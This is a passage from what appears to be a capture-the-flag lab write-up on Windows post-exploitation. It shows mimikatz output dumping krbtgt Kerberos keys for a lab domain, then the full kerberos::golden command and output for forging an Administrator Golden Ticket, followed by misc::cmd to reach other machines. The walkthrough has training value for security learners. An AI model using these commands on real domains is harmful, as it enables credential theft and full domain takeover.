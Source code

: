 ```cmd
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4 
```

#### Create a Golden Ticket

1) `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

```cmd
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfd
f /id:500
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 6/28/2021 9:43:47 AM ; 6/26/2031 9:43:47 AM ; 6/26/2031 9:43:47 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

2) Open a new command prompt with elevated privileges to all machines with `misc::cmd`:

```cmd
mimikatz # misc::cmd 
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7609443B8
```

3) Within this new command prompt, access other machines:

![](https://pymaster-ft.github.io/assets/img/thm/windows/windows-post-exploitation-basics/dir-desktop-1.png)

